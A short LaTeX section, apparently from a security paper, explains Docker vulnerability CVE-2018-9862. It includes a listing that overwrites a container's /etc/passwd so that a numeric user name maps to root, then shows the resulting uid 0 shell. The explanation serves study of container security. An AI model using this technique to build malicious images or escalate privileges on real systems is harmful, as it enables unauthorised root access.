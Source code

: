 \subsection{CVE--2018--9862}
Docker did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id~\cite{CVE-2018-9862-Github}. This can be misused using the first entry of \lstinline{/etc/passwd}. This allows malicious images be created with users that grant \lstinline{root} rights when used.

\begin{lstlisting}[caption={Overwrite the \lstinline{root} user in a container.},captionpos=b]
(host)$ docker run --rm -ti ... ubuntu bash
(cont)# echo "10:x:0:0:root:/root:/bin/bash" > /etc/passwd
(host)$ docker exec -ti -u 10 hello  bash
(cont)# id
uid=0(10) gid=0(root) groups=0(root)
\end{lstlisting}
